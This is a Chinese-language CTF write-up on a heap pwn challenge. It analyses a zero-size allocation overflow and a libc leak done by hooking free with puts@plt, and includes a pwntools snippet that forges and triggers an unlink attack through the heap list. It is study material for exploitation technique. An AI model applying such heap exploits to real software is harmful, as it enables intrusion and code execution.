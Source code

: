    ![image-20240718172053034](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181720127.png)

## 例题3

### 思路：

1. 和前面那一题一样的漏洞，但是show函数名存实亡，所以再unlink后泄漏libc地址时，需要先用puts函数plt地址来hook一下free函数，进而输出puts函数的地址 ==> 得到libc基地址。
2. 然后就是edit函数能直接写入b"\x00"了。
3. 后续利用方式于上题相同。

当然这题也可以用 **堆溢出+fast attack** 来做。

### 分析：

1. add函数中自定义的read函数，当size为0时，无符号比较-1会一致比i大，但是当申请一个**为0的大小**，系统会返回**size为0x21的chunk** ，所以会造成堆溢出：

   ![image-20240718191415913](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181914995.png)

2. show函数，名存实亡：

   ![image-20240718191432686](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181914754.png)

3. delete函数，任然没有UAF：

   ![image-20240718191449652](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181914742.png)

4. edit函数，写入的时候于add函数中的调用相同，相比于上一题使用strcat，这次能写入b"\x00"：

   ![image-20240718191505911](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181915995.png)

### 利用：

1. 利用heaplist伪造unlink，与上体相同：

   ```python
   add(0,b'a')      #0  溢出修改chunk2
   add(0x20,b'a')   #1  构造unlink
   add(0x80,b'a')   #2  触发unlink
   add(0x10,b"a")   #3  防止合并
   
   #构造unlink
   heap_list = 0x6020d0    #存放伪造unlink地址的heaplist地址
   fd = heap_list-0x18
   bk = heap_list-0x10
   content = p64(fd)+p64(bk)
   size = 0x21
   prve_size = 0x20
   next_size = 0x90
   payload0 =  p64(0)*3 +p64(0x31) + p64(0) + p64(size) + content + p64(prve_size)+p64(next_size)
   
   edit(0,payload0)
   #触发unlink
   free(2)
   ```
